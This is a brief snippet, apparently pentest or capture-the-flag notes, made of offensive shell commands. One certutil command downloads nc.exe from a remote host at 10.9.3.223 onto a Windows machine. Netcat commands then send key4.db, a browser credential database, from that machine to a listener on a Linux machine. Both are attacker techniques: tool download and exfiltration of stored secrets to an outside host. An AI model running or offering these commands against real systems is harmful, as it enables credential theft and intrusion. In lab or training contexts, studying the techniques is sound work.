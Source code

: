Download file in Windows Machine.

certutil -urlcache -f http://10.9.3.223:80/nc.exe nc.exe

Transfer file from Windows Machine to Linux (netcat)

nc -nv 10.9.3.223 443 < key4.db (on windows machine)

nc -nvlp 443 > key4.db (on Linux Machine)
